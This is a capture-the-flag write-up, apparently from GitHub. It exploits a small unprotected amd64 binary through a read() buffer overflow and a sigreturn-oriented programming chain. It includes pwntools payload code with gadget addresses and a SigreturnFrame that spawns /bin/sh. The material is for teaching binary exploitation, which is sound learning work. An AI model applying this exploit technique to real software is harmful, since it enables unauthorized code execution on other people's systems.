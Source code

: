 # Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      No RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x42000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

As we can see, we can do something there!

The program has no interface, so we head into the disassembly right away.

### Disassembly

Starting with `_start()`:

![image](https://github.com/user-attachments/assets/38bc394c-4df5-4510-98a1-821a9ac64cb2)

![image](https://github.com/user-attachments/assets/f1b71c35-c417-4886-8d7d-c9c2c2ab5d9a)

That's the whole binary, we see there is a huge buffer overflow that `rdx` reads up to `0x106 = 262` bytes by read syscall. And we can modify return address if we send enough bytes to override. First of all, we need to find a possible gadget and `/bin/sh` address.

![image](https://github.com/user-attachments/assets/618d8c46-cbd1-4c37-987e-bf7fc383a72f)


Now that we have this, we can craft the `SROP` chain.
We want to execute system("/bin/sh") but in assembly language it is execve("/bin/sh", argument, env ) function.
![image](https://github.com/user-attachments/assets/b9f3ec88-7915-49f1-88b1-25aac79cd63e)

```python
# Srop
POP_RAX =0x0043018
SYSCALL_RET=0x043015
BINSH = 0x43238
```

After crafting the `frame`, we send the payload to trigger the vulnerability and get shell.

```python
payload = b'a'*0x8  # 8 bytes override for save rbp
payload += p64(POP_RAX)
payload += p64(0xf)  # syscall number for rt_sigreturn(), search for linux syscall table
payload += p64(SYSCALL_RET)

frame = SigreturnFrame()
frame.rax = 0x3b           # syscall number for execve() function, u can search linux syscall table
frame.rdi = BINSH          
frame.rsi = 0x0             
frame.rdx = 0x0 
frame.rip = SYSCALL_RET   

payload += bytes(frame)
```
# Why I created like this. We should know how the stack allocate data.

[filler | rop.rax[0] | 0xf | rop.syscall[0] | Sigreturn Frame]

When SYS_read reads the payload onto the stack (at RSP - 8), the stack looks like this:
```
RSP-8: "w3th4nds"
RSP: rop.rax[0]
RSP+8: 0xf
RSP+16: rop.syscall[0]
RSP+24: [Sigreturn Frame]
```
The ret instruction jumps to the value at RSP now is RAX

Gadget pop rax; ret:
pop rax: Get 0xf from RSP+8 and allocate it to RAX.

ret: Skip to rop.syscall[0] at RSP+16.

The syscall gadget (at rop.syscall[0]) calls SYS_rt_sigreturn because RAX = 0xf now.
Why is this needed?

SYS_rt_sigreturn requires RAX = 0xf and needs a way to put this value into RAX. The pop rax utility; ret is the only tool in the program that is allowed to do that.
After RAX = 0xf, we need to call the syscall to execute. So this ROP string is the "start" step to move to the next stage.

Thinking: The ROP chain is like a "bridge" from the initial state of the program (after SYS_read) to the SROP mechanism.
# Sigreturn Frame Section - "Execute the final goal"

Goal: Provide a frame signal to the kernel to read when SYS_rt_sigreturn is called, from which registers are set to call execve("/bin/sh", NULL, NULL).

When SYS_rt_sigreturn is called (from the utility syscall in stage 1), the kernel checks the stack at location RSP for the Sigreturn Frame.

At this point, RSP points to RSP+24 (byte(frame) section), which contains the values:
RAX = 0x3b (execve syscall number).
RDI = binsh (pointer to /bin/sh).
RSI = 0x0 (NULL).
RDX = 0x0 (NULL).
RIP = rop.syscall[0] (return utility syscall).

The kernel "restores" these registers and jumps to rop.syscall[0].
The utility syscall is called again, but now RAX = 0x3b, so it executes execve("/bin/sh", NULL, NULL).
Why is this part needed?
SYS_rt_sigreturn doesn't know that we want to call execve. We have to provide a frame signal to "tell" the kernel: "Set the registers like this and jump here".
This is the only way to control multiple registers at once (RAX, RDI, RSI, RDX, RIP) without needing a longer ROP chain (which is hard to find in a small binary like this).

Running solver remotely at IP port

### Result


![image](https://github.com/user-attachments/assets/1cfc6b67-e5b1-42c0-8116-027ec9c7467d)

